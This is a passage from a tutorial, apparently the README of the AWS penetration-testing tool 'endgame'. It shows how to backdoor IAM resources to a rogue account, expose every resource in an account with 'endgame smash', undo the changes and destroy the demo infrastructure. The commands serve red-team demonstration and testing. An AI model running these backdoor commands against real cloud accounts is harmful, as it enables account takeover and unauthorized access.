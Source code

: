 ## Step 4: Backdoor specific resources

* Use the `--dry-run` command first to test it without modifying anything:

```bash
endgame expose --service iam --name test-resource-exposure --dry-run
```

* To create the backdoor to that resource from your rogue account, run the following:

```bash
endgame expose --service iam --name test-resource-exposure
```

Example output:

<p align="center">
  <img src="docs/images/add-myself-foreal.png">
</p>

## Step 5: Roll back changes

* If you want to atone for your sins (optional) you can use the `--undo` flag to roll back the changes.

```bash
endgame expose --service iam --name test-resource-exposure --undo
```

<p align="center">
  <img src="docs/images/add-myself-undo.png">
</p>

## Step 6: Smash your AWS Account to Pieces

* To expose every exposable resource in your AWS account, run the following command.

> Warning: If you supply the argument `--evil-principal *` or the environment variable `EVIL_PRINCIPAL=*`, it will expose the account to the internet. If you do this, it is possible that an attacker could assume your privileged IAM roles, take over the other [supported resources](#supported-backdoors) present in that account, or incur a massive bill. As such, you might want to set `--evil-principal` to your own AWS user/role in another account.

```bash
endgame smash --service all --dry-run
endgame smash --service all
endgame smash --service all --undo
```

## Step 7: Destroy Demo Infrastructure

* Now that you are done with the tutorial, don't forget to clean up the demo infrastructure.

```bash
# Destroy the demo infrastructure
make terraform-destroy
```

